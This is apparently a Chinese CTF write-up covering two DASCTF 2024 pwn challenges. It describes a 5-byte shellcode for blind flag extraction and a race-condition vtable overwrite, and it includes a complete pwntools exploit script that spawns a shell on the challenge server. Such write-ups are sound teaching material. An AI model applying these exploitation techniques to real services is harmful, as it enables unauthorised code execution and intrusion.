 ```yaml
---
title: DASCTF 2024-Pub 个人部分题解
published: true
---
```


| 目录跳转: |
|--------|
| [PWN题目: sixbytes - 暂不附Exp](#pwn题目-sixbytes) |
| [PWN题目: usersys - 附Exp](#pwn题目-usersys) |
| [PWN题目: ChromeLogger(未更完)](#pwn题目-chromelogger) |


# [](#header-3)pwn题目 sixbytes

进入 main 函数，调用函数读取 flag 而后赋值给 v4，v4 即为 flag 的字符串首地址，函数笔者不再赘述. 接下来进入 sub_5555555553B8 看 v3 的生成方式

![dasctf](/image/dasctf2024/1.png)  

sub_5555555553B8:   
可以观察到，该函数使用 mmap 在 0x20240000 申请了权限为 0x7 (可读可写可执行) 的较长空间后，再读取了 6 个字节的用户输入数据到该空间内. 这里限制了用户只能输入六个字节的数据

![dasctf](/image/dasctf2024/2.png)  

最后在主函数以 v4 为参数调用该空间. 即将 PC 更改到用户输入数据的头部

![dasctf](/image/dasctf2024/3.png)  

一开始我的思路是 _perror 直接输出 flag，看了一下后发现开启了 seccomp 禁止了 syscall

![dasctf](/image/dasctf2024/4.png)  

由于没任何输入输出，只能靠盲注：

如下所示，当 [rdi + i] 的值大于 X 时则跳转，进入到死循环，否则 Segment Error. 这样就可以写个二分盲注，盲注出结果

`payload`

```x64
loop:
cmp byte ptr[rdi + i], X
jg loop
```

而正巧的是，该 payload 占长度为 5 字节，不超过 6 字节. 因此是可行的

exp 后面再放

# [](#header-3)pwn题目 usersys

首先经过探查发现，这个题只有 guest 输入用户名称的地方能够输入任意字节的用户名称，并且添加.  
因此大概率确定是由此导致的内存覆写然后造成的危害  

首先查看 guest 处理函数 FUNC_GUEST(如下图所示，该函数实际上记录在虚表中)，笔者先解释一下几个关键函数及参数的用途：
1. 参数 a1 代表当前所有登记了的 guest 统计结构体，该结构体包括当前各个 guest 名称，总的 guest 数量(下文中笔者把 a1 中的总 guest 数量简称为 guest_count )，该结构体可以大致理解为如下数据结构
    ```c
    struct type_a1{
        char guest_name[5][8];      // a1 + 0x18, guest 字符串数组，最大只能写 5 个，每个 guest 名称长度最大 8
        long guest_count;           // a1 + 0x40, guest 长度
    };
    ```
2. 红圈中的 UPDATE_FILE 函数从保存的 GUEST_DATA 中读取登记了的 guest 名称数据并更新 a1，可以简单理解为 UPDATE_FILE 更新了 a1

![dasctf](/image/dasctf2024/5.png)  

ADMIN 表和 GUEST 表都是写在结构体上的虚表，是看情况调用的. 此处距离 a1 不远，推测该题应该是写入虚表 getshell. 简单内存图请看如下所示，详细内存分布情况请查看更下面的 `a1 部分内存分布情况` 表

![dasctf](/image/dasctf2024/6.png)  

观察虚表发现 Root 用户函数地址，这是一个后门函数，如果能够覆盖 Admin 的虚表为 Root 的虚表，就可以进入到该后门

![dasctf](/image/dasctf2024/7.png)  


红色横线中 `*(__int16 *)(a1 + 64) > 4` 取出 a1 中 guest_count 并判断当前 guest_count 是否大于 4，如果大于 4，也就是当前记录的 guest 总数大于等于 5 时则不做记录(在此的寄存器取址 细节逻辑请查看 汇编代码，笔者不再赘述)

![dasctf](/image/dasctf2024/5.png)  

但是可以发现，这里在经过 `*(__int16 *)(a1 + 64) > 4` 的逻辑判断后又 UPDATE_FILE 更新了 a1 一次. 可以确定在此肯定有条件竞争导致的漏洞，当多个线程同时访问该文件并进入了 else 语句 (`wanna leave your name?[y/n]`)但还未 UPDATE_FILE 时，由于多个线程条件竞争漏洞 在合适的条件下 guest_count 肯定是能够大于等于 5 的

在第二次 UPDATE_FILE 结束后，发现 read 函数读取用户输入
```c
read(0, (void *)(8 * (*(__int16 *)(a1 + 64) + 2LL) + a1 + 8), 8uLL);
```
其作用是将用户输入数据读入到 `(void *)(8 * (*(__int16 *)(a1 + 64) + 2LL) + a1 + 8)`，那么怎么理解该读入地址呢？根据上文分析可以知道 `*(__int16 *)(a1 + 64)` 代表 guest_count，那么这串代码简述过来就是 `8 * (guest_count + 2LL) + a1 + 8`，化简后就是 `a1 + 0x18 + guest_count * 8`，由于 guest_name 中一个字符串 8 字节，整个读入地址 可以简单理解为如下形式    
`guest_name[guest_count]`  
那么 read 就可以理解为  
```c
read(0, guest_name[guest_count], 8uLL);
```

在此我先将 a1 及其前后的部分内存分布情况简单列出: 

![dasctf](/image/dasctf2024/9.png)  

<!--
<br>
<table style="border:1px solid #2bbc8a;border-collapse: collapse;" border="1">
    <tr>
        <td colspan="2">a1 部分内存分布情况</td>
    </tr>
    <tr>
        <td>a1 + 0x18</td>
        <td>guest_name[0]：第一个 guest 名称</td>
    </tr>
    <tr>
        <td>a1 + 0x20</td>
        <td>guest_name[1]：第二个 guest 名称</td>
    </tr>
    <tr>
        <td>a1 + 0x28</td>
        <td>guest_name[2]：第三个 guest 名称</td>
    </tr>
    <tr>
        <td>a1 + 0x30</td>
        <td>guest_name[3]：第四个 guest 名称</td>
    </tr>
    <tr>
        <td>a1 + 0x38</td>
        <td>guest_name[4]：第五个 guest 名称</td>
    </tr>
    <tr>
        <td>a1 + 0x40</td>
        <td>guest_count</td>
    </tr>
    <tr>
        <td>...</td>
        <td>......</td>
    </tr>
    <tr>
        <td>a1 + 0x50</td>
        <td>Root 函数的虚表地址</td>
    </tr>
    <tr>
        <td>...</td>
        <td>......</td>
    </tr>
    <tr>
        <td>a1 + 0x70</td>
        <td>Admin 函数的虚表地址</td>
    </tr>
</table>
-->

可以发现，Admin 函数虚表地址 隔 `guest_name[0]` 的距离恰巧为 0x58 个字节也就是 11 个 8 字节，`guest_name[11]` 访问到的即是 Admin 的虚表地址，那么 `guest_name[6]` 访问到的即是 guest_count

此时，可以利用条件竞争漏洞，连接两个线程至 `wanna leave your name?[y/n]` 处，当 第一个线程 写到第五个 时，第二个线程由于已经到 `wanna leave your name?[y/n]`  处，还可以继续写第六个也就是 `guest_name[6]`，那么第二个线程就可以随意更改 guest_count 的值. 

而笔者需要修改 Admin 函数的虚表地址为 Root 的虚表地址，因此需要第三个线程的介入. 

解题流程：  

在前面已经知道 第二个线程是用来修改 guest_count 的值，那么可以将 guest_count 拓展到笔者想要修改的地址(在此为 Admin 函数虚表位置). 然后拓展第三个线程修改该位置的值(在此将 原虚表的值，修改为 Root 虚表的值)

首先连接第一个线程，当第一个线程 写到第四个 guest 时并已经进入 `wanna leave your name?[y/n]` 但未输入 `y` 时，旋即连接第二 第三个线程并都进入到 `wanna leave your name?[y/n]` 等待. 然后第一个线程再写入一个 guest 达到写满

第二个线程由于已经到 `wanna leave your name?[y/n]`  处，还可以继续写第六个，而第六个 8 字节地址正巧就是 guest_count 的值，那么第二个线程就可以写入 0xa，当该进程写入结束后 guest_count 就会变成 0xb. 

然后第三个线程此时写入的就是 `guest_name[11]`，即 Admin 虚表地址了. 只要此时写入 Root 地址的固定的最低一个字节 0x50 即可(其高地址将会 RELRO，因此只写入最后一个字节)

exp 如下所示
```py
# by leeya_bug
IP      = {你的 IP}
PORT    = {你的端口}

from pwn import * 
import time

c1 = remote(IP, PORT)

# 清空原有数据
time.sleep(0.3)
c1.sendline(b'admin')
c1.sendline(b'clear')
c1.sendline(b'logout')

# 填充四个 guest
for i in range(1, 5):
    time.sleep(0.3)
    c1.sendline(b'guest')
    c1.sendline(b'y')
    c1.sendline(b'name' + str(i).encode())

# 启动另外两个 Connection，并让三个 Connection 进入 wanna leave your name?[y/n] 等待区
if True:
    time.sleep(0.3)
    c1.sendline(b'guest')

    c2 = remote(IP, PORT)
    time.sleep(0.3)
    c2.sendline(b'guest')
    
    c3 = remote(IP, PORT)
    time.sleep(0.3)
    c3.sendline(b'guest')

# 第一个 Connection 填充第五个 guest
time.sleep(0.3)    
c1.sendline(b'y')
c1.sendline(b'name5')

# 第二个 Connection 修改 guest_count 为 0xa，后面变成 0xb
time.sleep(0.3)
c2.sendline(b'y')
c2.sendline(p64(0xa))

# 第三个 Connection 修改 Admin 虚表的最后一个字节为 50，即 Root 虚表的地址
time.sleep(0.3)
c3.sendline(b'y')
c3.send('\x50')

# 触发 admin，反弹 shell
time.sleep(0.3)
c3.sendline(b'admin')
c3.interactive()
```

运行以上 exp，连接 Shell 后，输入 `cat /flag` 命令即可获取 flag

![dasctf](/image/dasctf2024/8.png)  

# [](#header-3)pwn题目 chromelogger

由于笔者这两天事很多，没有更新完，后面再更新
